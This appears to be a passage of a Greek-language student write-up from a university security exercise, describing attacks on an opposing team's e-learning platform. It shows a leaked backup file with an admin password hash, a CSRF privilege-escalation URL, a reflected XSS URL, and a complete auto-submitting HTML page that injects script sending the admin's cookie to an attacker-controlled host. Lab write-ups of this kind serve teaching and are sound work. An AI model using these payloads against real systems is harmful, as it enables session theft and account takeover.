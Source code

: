 Χαρακτηριστικά, οι πρώτες γραμμές του αρχείου **backup.php** είναι:
```
<?
$eclass_version = '2.3';
$version = 2;
$encoding = 'UTF-8';
course_details('TMA102',	// Course code
	'greek',	// Language
	'linear algebra',	// Title
	'
το γνωστό σε όλ@ς
',	// Description
	'Τμήμα 1',	// Faculty
	'2',	// Visible?
	'evangelos raptis',	// Professor
	'pre');	// Type
user('1', 'Πλατφόρμας', 'Διαχειριστής', 'drunkadmin', '088c82060803c5188e98735c2bf1ffe7', 'webmaster@localhost', '1', '', '', '1651678431', '1791678431');
...
```

***Παρατήρηση 1***: Όπως ήδη αναφέρθηκε, για να πετύχει το παραπάνω CSRF attack ο διαχειριστής πρέπει να έχει ήδη κάνει "κλίκ" σε ένα μάθημα. Ωστόσο όπως περιγράφεται στην συνέχεια (τόσο στο attack του deface όσο και στο CSRF attack που πραγματοποιήσαμε), χρησιμοποιώντας iframes μπορούμε να "προσομοιώσουμε" το κλικ του admin στο μάθημα μέσω ενός get request εντός του iframe (χωρίς αυτός να το αντιληφθεί) και στην συνέχεια να πραγματοποιήσουμε το CSRF attack. Έτσι, δεν είναι απαραίτητο ο χρήστης να έχει επιλέξει κάποιο μάθημα, αρκεί μόνο να είναι συνδεδεμένος στην εφαρμογή. Εφόσον είναι συνδεδεμένος, το attack πετυχαίνει σε κάθε περίπτωση.

***Παρατήρηση 2***: Το παραπάνω attack δεν το πραγματοποιήσαμε στέλνοντας email στον admin καθώς είχαμε ήδη αποκτήσει πρόσβαση σαν admin. Ωστόσο, πραγματοποιήσαμε ένα αντίστοιχο CSRF attack μέσω email  το οποίο περιγράφεται στην συνέχεια. Για να πραγματοποιηθεί αυτό το attack που μόλις περιγράφηκε αρκούσε απλά να αλλάξουμε στον κώδικα μας (ο οποίος παρουσιάζεται στην παράγραφο CSRF) το target url και να το αντικαταστήσουμε με το http://edimoi-diariktes.csec.chatzi.org/modules/user/user.php?giveAdmin=5 .

## Στόχος 2: Deface
Για να πραγματοποιήσουμε το full defacement της εφαρμογής της αντίπαλης ομάδας αρχικά έπρεπε να συνδεθούμε ως διαχειριστής.

Όπως αναφέρεται και στην αντίστοιχη παράγραφο ένα από τα XSS vulunerabilities που βρήκαμε ήταν στην σελίδα **/modules/phpbb/reply.php** μέσω της παραμέτρου reply (π.χ. http://edimoi-diariktes.csec.chatzi.org/modules/phpbb/reply.php?topic=1&forum=1&reply=%3Cscript%3Ealert(1)%3C/script%3E ).
Επίσης, για να πραγματοποιηθεί αυτό το attack πρέπει πρώτα ο χρήστης να έχει κάνει κλίκ στο αντίστοιχο μάθημα.

Έτσι, δημιουργήσαμε ένα script στο puppies με στόχο να "κλέψουμε" το cookie του admin.
To script αυτό βρίσκεται στην τοποθεσία ***puppies/thesis/index.php*** και περιέχει:
```html
<!DOCTYPE html>
<html>

<body onload="submitForms()">
<form action="http://edimoi-diariktes.csec.chatzi.org/modules/phpbb/reply.php"  method="get" id="form1">
  <input type="hidden" id="unregister" name="forum" value="1"><br>
  <input type="hidden" id="unregister" name="topic" value="1"><br>
  <input type="hidden" id="unregister" name="reply" value="<script>fetch('http://angry-nerds.puppies.chatzi.org/thesis/steal_cookie.php?cookie='.concat(document.cookie));
  setTimeout(function() { window.top.location.href = 'http://angry-nerds.puppies.chatzi.org/project_submission/project48lis.pdf' }, 375 )
  </script>"><br>
</form>

<iframe name="dummyframe2" id="dummyframe2" style="display: none;"></iframe>
```
